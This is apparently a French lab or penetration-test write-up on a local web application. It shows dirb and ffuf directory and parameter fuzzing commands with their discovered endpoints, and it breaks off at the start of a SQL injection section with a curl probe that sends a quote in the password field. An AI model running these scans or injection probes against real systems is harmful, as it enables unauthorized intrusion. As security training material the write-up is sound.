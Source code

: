Gérard Galmar / Yassine Abdaoui

Pour repérer les vulnérabilités dans l'application, on a utilisé Snyk, pour réaliser une analyse du code source. Ce qui nous a permis de repérer plusieurs failles critiques.

Mais d'un point de vue plus réaliste, on a décidé de privilégier l'éxploitation des vulnérabilités via des requêtes curl, pour tenter de simuler un scénario black box, où on ne dispose d'aucune informations.
L'étape de la reconnaissance ( faite grâce à plusieurs outils, tels que dirb, ffuf, scripts pythons... ) était donc primordiale pour tenter de trouver des vulnérabilités, et les éxploiter par la suite.

 <h1 align = "center">---> Reconnaissance <----</h1>

Dirb, ffuf

dirb https://localhost:3000 /usr/share/wordlists/seclists/Fuzzing/fuzz-Bo0oM.txt -w -H "Authorization: Bearer (Token Here)"

---> /login

---> /swagger

---> /swagger/index.html

---> /swagger/v1/swagger.json

dirb https://localhost:3000 /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -w -H "Authorization: Bearer (Token Here)"

---> /login

---> /client

---> /contract

---> /employee

---> /invoice

---> /patch


ffuf -u https://localhost:3000/?FUZZ=test  -H 'Content-Type: application/json' -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt --mc 299,301,302,307,401,403,405,500 -H "Authorization: Bearer (Token Here)"
---> paramètre lang trouvé

Un script résumant toutes les actions entreprises a également été fait en bash afin de structurer notre travail.
Vous pourrez utiliser ce script afin de voir plus clairement comment on s'est organisé pour réaliser cette opération.

###  1 SQL injection (CWE-89)

Comme c'est une page simple de login, on sait déjà du premier coup d'oeil, qu'on doit tenter une injection sql.

En curl, on tente en premier lieu de voir quel champ est injectable :

curl -ik https://localhost:3000/login \
  -H "Content-Type: application/json" \
  -d '{"username": "re", "password": "'\''"}'
